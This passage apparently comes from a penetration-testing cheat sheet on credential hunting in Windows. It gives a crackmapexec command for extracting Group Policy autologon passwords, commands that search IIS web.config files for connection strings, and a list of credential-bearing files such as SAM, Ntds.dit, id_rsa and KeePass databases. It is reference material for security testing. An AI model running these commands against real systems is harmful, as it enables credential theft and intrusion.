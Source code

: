 Using crackmapexec to get the passwords:

```shell-session
crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```

### IIS Configuration

```bash
# Here is a quick way to find database connection strings on the file:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString


Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

### Logs

```bash
# IIS
C:\inetpub\logs\LogFiles\*

#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

### **Possible filenames containing credentials**

Known files that some time ago contained **passwords** in **clear-text** or **Base64**

```bash
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
vnc.ini, ultravnc.ini, *vnc*
web.config
php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
SiteList.xml #McAfee
ConsoleHost_history.txt #PS-History
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
```